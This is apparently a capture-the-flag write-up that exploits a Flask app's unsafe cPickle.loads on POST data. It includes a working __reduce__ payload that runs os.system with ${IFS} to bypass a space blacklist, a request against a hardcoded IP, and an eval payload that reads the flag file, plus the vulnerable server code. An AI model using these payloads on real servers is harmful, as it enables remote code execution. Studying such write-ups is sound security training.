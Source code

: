 # rundown

Description:
```
A rundown, informally known as a pickle or the hotbox, is a situation in the game of baseball that occurs when the baserunner is stranded between two bases, also known as no-man's land, and is in jeopardy of being tagged out." ... if you stopped in the first part of the definition you are one of ours.
```

The descriptions suggests the use of the pickle library. So this will come in handy if there is a serialization vulnerability.

![landing](images/img_00000.png)

I'll open BurpSuite and try a different verb for the request. I'll start with "OPTIONS".

![options](images/img_00001.png)

So we are dealing with a python http server, flask most likely. The only interesting method is "POST". So that's what we'll use.

Using that method reveals that debug mode is set to true. Also, the debug page reveals the use of cPickle.

![debug](images/img_00002.png)

Interesting code for the "POST" method:
```python
@app.route("/", methods=["POST"])
def newpost():
    picklestr = base64.urlsafe_b64decode(request.data)
    if " " in picklestr:
        return "The ' ' is blacklisted!"
    postObj = cPickle.loads(picklestr)
    return ""
```

Searching for the "loads" function from the pickle we get he following code example:
```python
data1 = [ { 'a':'A', 'b':2, 'c':3.0 } ]
print 'BEFORE:',
pprint.pprint(data1)

data1_string = pickle.dumps(data1)

data2 = pickle.loads(data1_string)
print 'AFTER:',
pprint.pprint(data2)
```

So we'll need to make a script for dumping the data we want the server to deserialize. We also need to keep in mind the ' ' character is blacklisted. I'll first test a simple sleep command.

```python
import requests
import pickle
import base64
import os

URL='http://34.107.35.141:31493/'

class Exploit:
    def __reduce__(self):
        return (os.system,('sleep${IFS}5',))

data_string=pickle.dumps(Exploit(),protocol=1)
print(base64.b64encode(data_string))

response=requests.post(url=URL,data=base64.b64encode(data_string).decode())
print(response.text)
```

And this works, the server takes some time to respond. We can use the error shown in the debug console to display the flag by trying to run the flag as python code with eval.

```python
class Exploit():
	def __reduce__(self):
		return (eval, ('eval(open("flag","r").read())', ))
```